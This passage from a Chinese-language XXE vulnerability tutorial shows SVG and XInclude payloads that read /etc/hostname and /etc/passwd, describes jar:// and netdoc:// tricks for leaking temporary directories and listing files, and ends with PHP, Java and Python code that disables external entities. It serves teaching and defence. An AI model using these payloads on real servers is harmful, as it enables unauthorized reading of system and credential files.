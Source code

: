 ```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
	<!ENTITY xxe SYSTEM "file:///etc/hostname" > 
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
## **2.6 XInclude类型XXE**
一些应用程序接收客户端提交的数据，将其嵌入到服务器端的XML文档中，然后解析文档。当客户端提交的数据被放入后端SOAP请求中，然后由后端SOAP服务处理时，就会出现这种情况。
在这种情况下，您无法执行经典的XXE攻击，因为您无法控制整个XML文档，因此无法定义或修改DOCTYPE元素。但是，您可以改用XInclude。XInclude是XML规范的一部分，它允许从子文档构建XML文档。您可以将XInclude攻击放在XML文档中的任何数据值中，因此可以在您仅控制放置到服务器端XML文档中的单个数据项的情况下执行攻击。
要执行XInclude攻击，需要引用XInclude命名空间并提供要包含的文件的路径。例如：
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
## **2.7 其他利用姿势**
**利用jar协议配合xxe获取临时文件的目录**<br>
jar:// 协议的格式：jar:{url}!{path}<br>
jar:http://vps:8080/jar.zip!/1.php<br>
如果jar.zip中不存在1.php 文件，则会报错，并在错误日志中打印临时文件目录<br>
netdoc:// 列目录，列出某个目录下的文件
# **3 XXE 如何防御**
**方案一：使用语言中推荐的禁用外部实体的方法**

**PHP：**
```php
libxml_disable_entity_loader(true);
```
**JAVA:**
```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities",false)
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```
**Python：**
```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
# **4 参考资料**
【1】http://www.k0rz3n.com/2018/11/19/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E6%B7%B1%E5%85%A5%E7%90%86%E8%A7%A3%20XXE%20%E6%BC%8F%E6%B4%9E/<br>
【2】https://www.freebuf.com/articles/web/97833.html<br>
【3】https://www.freebuf.com/vuls/207639.html<br>
【4】https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/<br>
